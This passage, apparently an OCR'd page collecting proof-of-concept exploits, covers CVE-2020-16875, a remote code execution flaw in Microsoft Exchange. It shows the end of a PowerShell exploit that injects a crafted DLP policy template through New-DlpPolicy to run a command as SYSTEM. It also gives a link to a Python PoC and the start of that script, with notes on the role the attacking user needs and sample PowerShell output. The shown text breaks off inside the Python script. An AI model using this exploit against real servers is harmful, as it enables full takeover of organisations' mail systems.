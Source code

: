 ```
    <policyCommandsResources></policyCommandsResources>
  </dlpPolicyTemplate>
</dlpPolicyTemplates>"@

    $n = Get-RandomAlphanumericString
    [Byte[]]$d = [System.Text.Encoding]::UTF8.GetBytes($xml)
    Invoke-Command -Session $s -ScriptBlock {
        New-DlpPolicy -Name $Using:n -TemplateData $Using:d 
    } | Out-Null
    "(+) executed $cmd as SYSTEM!"	
}

Get-PSSession | Remove-PSSession
Exploit-Exchange -server $server -usr $usr -pwd $pwd -cmd $cmd
```

> py 版POC：https://srcincite.io/pocs/cve-2020-16875.py.txt

```angular2
#!/usr/bin/env python3
"""
Microsoft Exchange Server DlpUtils AddTenantDlpPolicy Remote Code Execution Vulnerability
Patch: https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-16875

# Notes:

The (ab)user needs the "Data Loss Prevention" role assigned and if performing the attack over the ecp interface (this poc) then the user will need an active mailbox.

[PS] C:\Windows\system32>New-RoleGroup -Name "dlp users" -Roles "Data Loss Prevention" -Members "harrym"
 
Name      AssignedRoles          RoleAssignments                  ManagedBy
----      -------------          ---------------                  ---------
dlp users {Data Loss Prevention} {Data Loss Prevention-dlp users} {exchangedemo.com/Microsoft Exchange Security Groups/Organization Management, exchangedemo.com/Users/test}

[PS] C:\Windows\system32>Get-RoleGroup "dlp users" | Format-List

RunspaceId                  : 098e1140-30e3-4144-8028-2174fdb43b85
ManagedBy                   : {exchangedemo.com/Microsoft Exchange Security Groups/Organization Management, exchangedemo.com/Users/test}
RoleAssignments             : {Data Loss Prevention-dlp users}
Roles                       : {Data Loss Prevention}
DisplayName                 :
ExternalDirectoryObjectId   :
Members                     : {exchangedemo.com/Users/Harry Mull}
SamAccountName              : dlp users
Description                 :
RoleGroupType               : Standard
LinkedGroup                 :
Capabilities                : {}
LinkedPartnerGroupId        :
LinkedPartnerOrganizationId :
Identity                    : exchangedemo.com/Microsoft Exchange Security Groups/dlp users
IsValid                     : True
ExchangeVersion             : 0.10 (14.0.100.0)
Name                        : dlp users
DistinguishedName           : CN=dlp users,OU=Microsoft Exchange Security Groups,DC=exchangedemo,DC=com
Guid                        : fa5c8458-8255-4ffd-b128-2a66bf9dbfd6
ObjectCategory              : exchangedemo.com/Configuration/Schema/Group
ObjectClass                 : {top, group}
WhenChanged                 : 6/12/2020 11:29:31 PM
```